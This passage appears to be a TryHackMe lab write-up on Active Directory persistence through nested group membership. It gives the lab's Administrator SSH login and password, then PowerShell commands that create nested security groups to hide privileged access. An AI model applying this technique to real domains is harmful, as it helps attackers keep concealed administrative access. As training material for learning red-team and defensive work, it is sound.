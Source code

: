 <figure><img src="../../.gitbook/assets/image (117) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Persistence through Group Membership

**Kali**

```
ssh Administrator@THMDC
Password: tryhackmewouldnotguess1@
```

### Nesting Our Persistence

**Victim(powershell) - THMDC**

```
powershell

New-ADGroup -Path "OU=IT,OU=People,DC=ZA,DC=TRYHACKME,DC=LOC" -Name "<username> Net Group 1" -SamAccountName "<username>_nestgroup1" -DisplayName "<username> Nest Group 1" -GroupScope Global -GroupCategory Security
```

Let's now create another group in the People->Sales OU and add our previous group as a member:

**Victim(powershell) - THMDC**

```
New-ADGroup -Path "OU=SALES,OU=People,DC=ZA,DC=TRYHACKME,DC=LOC" -Name "<username> Net Group 2" -SamAccountName "<username>_nestgroup2" -DisplayName "<username> Nest Group 2" -GroupScope Global -GroupCategory Security 

Add-ADGroupMember -Identity "<username>_nestgroup2" -Members "<username>_nestgroup1"
```

